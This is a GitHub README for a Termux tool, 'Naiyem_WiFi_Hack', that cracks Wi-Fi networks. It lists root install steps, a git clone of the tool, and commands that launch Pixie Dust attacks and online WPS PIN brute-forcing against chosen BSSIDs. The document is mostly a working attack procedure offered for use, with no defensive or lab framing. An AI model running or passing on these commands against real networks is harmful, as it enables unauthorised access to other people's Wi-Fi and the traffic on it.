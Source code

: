 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/5cPyw37/IMG-20240219-WA0007.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/nayembai/Naiyem_WiFi_Hack

$ cd Naiyem_WiFi_Hack
$ chmod +x Muhammad_Naiyem.py
$ sudo python Muhammad_Naiyem.py --help
$ sudo python Muhammad_Naiyem.py -i wlan0 -K
```

#### Example : `sudo python Naiyem_WiFi_Hack/_Naiyem.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
